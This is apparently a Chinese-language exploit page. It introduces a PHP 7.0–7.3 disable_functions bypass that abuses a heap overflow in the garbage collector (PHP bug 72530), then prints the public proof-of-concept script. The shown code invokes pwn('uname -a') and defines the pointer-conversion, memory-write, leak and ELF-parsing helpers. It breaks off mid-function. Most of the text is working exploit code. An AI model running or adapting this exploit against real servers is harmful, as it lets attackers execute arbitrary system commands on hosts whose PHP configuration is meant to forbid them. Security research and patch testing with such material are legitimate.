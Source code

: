 此漏洞利用PHP垃圾收集器中存在三年的一个 [bug](https://bugs.php.net/bug.php?id=72530)，通过PHP垃圾收集器中堆溢出来绕过`disable_functions`并执行系统命令。

###  利用脚本

```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
```
